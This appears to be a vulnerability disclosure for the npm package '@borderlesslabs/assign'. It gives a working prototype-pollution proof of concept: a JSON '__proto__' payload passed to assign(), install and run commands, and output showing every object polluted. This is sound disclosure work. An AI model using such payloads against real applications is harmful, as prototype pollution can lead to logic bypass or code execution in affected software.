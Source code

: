 # Description

`@borderlesslabs/assign` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var a = require("@borderlesslabs/assign")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
a.assign(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i @borderlesslabs/assign # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
